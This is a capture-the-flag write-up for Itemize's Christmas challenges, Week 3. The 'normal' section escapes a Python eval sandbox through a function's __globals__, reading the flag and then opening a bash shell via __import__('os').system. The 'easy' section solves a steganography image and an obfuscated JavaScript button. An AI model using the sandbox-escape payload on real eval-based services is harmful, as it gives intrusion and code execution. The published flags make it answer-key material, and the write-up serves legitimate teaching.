


# Weeks:

- [Week 1](week1.md)
- [Week 2](week2.md)
- Week 3
- [Week 4](week4.md)

# Week 3 - normal

Connecting to the server using netcat greets us with the screen of the program SantasList9000:

```
   ____          __           __   _     __  ___  ___  ___  ___
  / __/__ ____  / /____ ____ / /  (_)__ / /_/ _ \/ _ \/ _ \/ _ \
 _\ \/ _ `/ _ \/ __/ _ `(_-</ /__/ (_-</ __/\_, / // / // / // /
/___/\_,_/_//_/\__/\_,_/___/____/_/___/\__//___/\___/\___/\___/

Dear elf, welcome to SantasList9000!
This is a program that keeps track on all the nice children for Christmas.
All nice children get presents.

<!-- Please do not share to non-elves -->

Commands:
-----------
- help()                  (print help screen)
- show()                  (shows list of children)
- update()                (update child information)
- source()                (show program source)
- exit()                  (exit program)

>
```

Going through the application, we can see that the following commands `help`, `show`, `update`, `source` and `exit` are available for us. And as all challenges where the source code is given, it is smart to begin by looking at the source code.

```py
> source()

#!/usr/bin/env python3
import hashlib
from datetime import date

flag = open("flag.txt").read().encode()
listfile = f"lists/{date.today().year}.csv"
children = open(listfile).read().split("\n")[1:-1]

def help():
  print(open("help.txt").read())

def show():
    print(f' No | {"Child".ljust(13)}| Status')
    print("----+-------------+-------")
    for i in range(len(children)):
      child = children[i].split(",")
      print(f"{str(i).rjust(3)} | {child[0].ljust(13)}| {child[1]}")

def update():
  key = input('Insert key > ')
  if key == hashlib.sha1(flag).hexdigest():
    try:
      index = int(input('Index to update > '))
      status = input('Set naughty or nice > ')
      children[index] = children[index].split(",")[0]+","+status
      with open(listfile, "w") as f:
        f.write("Child,Status\n"+"\n".join(children))
      print("Update successful!")
    except:
      print("Update instruction failed!")
  else:
    print("Access Denied!")

def source():
  print(open(__file__).read())

locals = {}
globals = {'__builtins__': {}, 'help': help, 'show': show, 'update': update, 'source': source, 'exit': exit, 'debug': print}
def main():
  help()
  print()
  try:
    while True:
      data = input('> ')
      print()
      co = compile(data, "main", "eval")
      res = eval(co, globals, locals)
      locals["_"] = res
      print()
      repr(res)
  except KeyboardInterrupt:
    print("Goodbye!")

if __name__ == '__main__':
  main()
```

Looking at the source code, we can see that `eval` is being used to execute our input commands, and as a protection mechanism, Python builtins are emptied out. This is in essential a Python sandbox escape challenge. Luckily for us some functions are accessible, as well as a `debug` function which is mapped to the builtin function `print` that will come in handy.

Since essentially everything in python is an object, they all contain some special attributes/methods, also known as dunder variables/methods, defined to convey information between the programmer and the Python interpreter. For instance, using the `__dir__`, which the builtin function `dir()` builts on top of, shows exactly all the attributes the object have.

Doing so on the available functions reveals many different dunder variables, in our case, we see the `__globals__` which gives a reference to the global namespace of the module where the function was defined in. Having the ability of reading the global namespace means that we essentially have access to the whole Python program. Reading it, displays the flag being `'flag': b'Itemize{n1ss3ns_l1st3_9000}'` for instance.

```
> debug(help.__dir__())

['__repr__', '__call__', '__get__', '__new__', '__closure__', '__doc__', '__globals__', '__module__', '__code__', '__defaults__', '__kwdefaults__', '__annotations__', '__dict__', '__name__', '__qualname__', '__hash__', '__str__', '__getattribute__', '__setattr__', '__delattr__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__init__', '__reduce_ex__', '__reduce__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']

> debug(help.__globals__)

{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fd6c3f1de80>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'main.py', '__cached__': None, 'hashlib': <module 'hashlib' from '/usr/local/lib/python3.8/hashlib.py'>, 'date': <class 'datetime.date'>, '__warningregistry__': {'version': 0}, 'flag': b'Itemize{n1ss3ns_l1st3_9000}', 'listfile': 'lists/2023.csv', 'children': ['Amelie,naughty', 'Noralf,naughty', 'Piotr,naughty', 'Thanh,naughty', 'Eilert,nice', 'Leikny,nice', 'Marian,naughty', 'Ida,nice', 'Tellef,nice', 'Margit,naughty', 'Jørgen,naughty', 'Gisle,naughty', 'Gudny,nice', 'Adnan,naughty', 'Audny,naughty', 'Vincent,nice', 'Sylvi,naughty', 'Tim,naughty', 'Magny,nice', 'Åge,naughty', 'Abdul,nice', 'Johanne,naughty', 'Phuong,nice', 'Katherine,nice', 'Tommy,naughty', 'Maren,naughty', 'Pelle,nice', 'Nicklas,naughty', 'Amina,nice', 'Arvid,naughty', 'Joakim,nice', 'Ingebjørg,naughty', 'Juliana,naughty', 'Daniela,nice', 'Finn,nice', 'Rolandas,nice', 'Matthew,nice', 'Liliana,nice', 'Marcel,nice', 'Stella,naughty', 'Ivan,naughty', 'Malin,nice', 'Gerda,naughty', 'Margrete,naughty', 'Henning,nice', 'Rebecka,nice', 'Ewa,naughty', 'Idris,naughty', 'Jamila,nice'], 'help': <function help at 0x7fd6c40b51f0>, 'show': <function show at 0x7fd6c40340d0>, 'update': <function update at 0x7fd6c40341f0>, 'source': <function source at 0x7fd6c4034310>, 'locals': {}, 'globals': {'__builtins__': {}, 'help': <function help at 0x7fd6c40b51f0>, 'show': <function show at 0x7fd6c40340d0>, 'update': <function update at 0x7fd6c40341f0>, 'source': <function source at 0x7fd6c4034310>, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'debug': <built-in function print>}, 'main': <function main at 0x7fd6c4034f70>}
```

For those interested, we can actually go further than reading the global namespace of the running program, and from that, escape the sandbox into the system internals by remote code execution (RCE).

```
> debug(help.__globals__["__builtins__"])

<module 'builtins' (built-in)>

> debug(help.__globals__["__builtins__"].__dir__())

['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'len', 'locals', 'max', 'min', 'next', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help']

> debug(help.__globals__["__builtins__"].__import__("os").system("bash"))

id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag.txt
help.txt
lists
main.py
ynetd
cat flag.txt
Itemize{n1ss3ns_l1st3_9000}
```

### Flag

`Itemize{n1ss3ns_l1st3_9000}`

# Week 3 - easy

We're given a postcard with no additional messages, and as this is a steganography challenge, there has to be a message hidden inside the image. Using https://www.aperisolve.com/ we can run through some known steganography programs and see if there is anything hidden in the image.

Looking through the different color planes, we can see that there is a QR-code hidden at the first bit of the red plane.


This is also hinted at by looking at the metadata of the image.


Scanning the QR code sends us to the page https://christmas.ctf.itemize.no/ wishing us a `merry christmas` as well as a button containing the text `click for gift`. However, the page is programmed in such a way that hovering over the button or clicking it, results in the button being teleported away from the cursor.


Looking at the source code, we can indeed see that this is done through an event listener registered in the obfuscated javascript file.

```js
function _0x2d2a(_0x36ccd9, _0x47949f) {
	const _0x2d2a90 = _0x4794();
	return (
		(_0x2d2a = function (_0x31dfbb, _0x2aeb63) {
			_0x31dfbb = _0x31dfbb - 0x10d;
			let _0x3e6ae5 = _0x2d2a90[_0x31dfbb];
			return _0x3e6ae5;
		}),
		_0x2d2a(_0x36ccd9, _0x47949f)
	);
}
function _0x4794() {
	const _0x580c89 = [
		"open",
		"getElementById",
		"style",
		"innerWidth",
		"random",
		"offsetWidth",
		"aDA",
		"click",
		"top",
		"repeat",
		"resize",
		".html",
		"addEventListener",
		"offsetHeight",
		"btn",
	];
	_0x4794 = function () {
		return _0x580c89;
	};
	return _0x4794();
}
const move = (_0x48aaab) => {
	const _0x364983 = _0x2d2a;
	(_0x48aaab[_0x364983(0x10f)][_0x364983(0x115)] =
		Math[_0x364983(0x111)]() *
			(window["innerHeight"] - _0x48aaab[_0x364983(0x11a)] + 0x5) +
		"px"),
		(_0x48aaab["style"]["left"] =
			Math[_0x364983(0x111)]() *
				(window[_0x364983(0x110)] - _0x48aaab[_0x364983(0x112)] + 0x5) +
			"px");
};
(() => {
	const _0x2a6876 = _0x2d2a,
		_0x4fc606 = document[_0x2a6876(0x10e)](_0x2a6876(0x11b));
	_0x4fc606[_0x2a6876(0x119)]("mouseover", function () {
		move(this);
	}),
		_0x4fc606[_0x2a6876(0x119)](_0x2a6876(0x114), function () {
			const _0x20bed7 = _0x2a6876;
			move(this);
			// TODO: make gift actually clickable 😹
			if (false) {
				window[_0x20bed7(0x10d)](
					atob(_0x20bed7(0x113))[_0x20bed7(0x116)](0x3) + _0x20bed7(0x118)
				);
			}
		}),
		window[_0x2a6876(0x119)](_0x2a6876(0x117), () => {
			move(_0x4fc606);
		});
})();
```

Looking at the source code, we quickly see that the button is coded in such a way that it is not clickable at all. By using Chrome, we can easily change the onclick event condition from `false` to `true` and clicking the button will send us to the flag.

Alternatively, one can also reverse the obfuscated code and manually go to the link https://christmas.ctf.itemize.no/h0h0h0.html for the flag


### Flag

`Itemize{3n_kj3d3l1g_g4v3}`
